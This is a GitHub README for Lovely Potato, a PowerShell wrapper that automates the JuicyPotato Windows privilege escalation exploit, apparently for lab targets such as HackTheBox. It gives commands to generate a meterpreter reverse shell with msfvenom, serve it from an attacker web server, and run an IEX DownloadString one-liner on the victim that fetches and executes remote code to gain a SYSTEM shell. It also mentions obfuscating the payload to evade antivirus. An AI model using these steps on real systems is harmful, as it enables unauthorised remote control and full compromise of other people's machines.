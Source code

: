 # Lovely Potato (automating juicy potato)
*Powershell wrapper of [Decoder's JuicyPotato][1] for easy exploitation. **This entirely depends on the [original Juicy Potato binary][2] and utilizes [his test_clsid.bat][3].***

## Quick Guide
First clone this repo to your attacker machine which already has all of required dependencies:
```
root@attacker:~# git clone https://github.com/TsukiCTF/Lovely-Potato.git
root@attacker:~# cd Lovely-Potato
```
Then modify the two following variables in 'Invoke-LovelyPotato.ps1' as below (attacker machine IP, writable path on the victim machine):
```
$RemoteDir = "http://[AttackerIP]
$LocalPath = "[WritablePathOnVictimMachine]"
```
Now create a meterpreter binary on the attacker machine or use any other executable reverse shell:
```
root@attacker:~/Lovely-Potato# msfvenom -p windows/meterpreter/reverset_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f exe -o meterpreter.exe
```
Start a web server in this repo to serve your meterpreter.exe and other dependencies:
```
root@attacker:~/Lovely-Potato# python3 -m http.server 80
```
On a new terminal, launch metasploit console (or any listener which handles whatever you are serving as a reverse shell):
```
root@attacker:~# msfdb run
msf5 > # I'm going to omit setting up the multi handler as it is something you should already know
```
Finally enter below command on victim's powershell console and wait 5 minutes for reverse shell running as user NT AUTHORITY\SYSTEM!
```
PS > IEX(New-Object Net.WebClient).DownloadString('http://[AttackerIP]/Invoke-LovelyPotato.ps1')
```

## Why Use Lovely Potato?
*For simplicity.*
Manually uploading various files to target host can be easily avoided with automation.
Also, listing entire CLSIDs on the system and identifying privilege for each of them takes very long time if done by sending commands.
You can easily switch binaries in the repo any time without having to recode Invoke-LovelyPotato.ps1.
Ex) Recompiling JuicyPotato for customization / Obfuscating your meterpreter for AV evasion

## Demo
Setting up & Testing Lovely Potato against HackTheBox machine (starting at 6:43)
https://youtu.be/f-JDU0GlRIw?t=403


[1]: https://github.com/ohpe/juicy-potato
[2]: https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
[3]: https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat

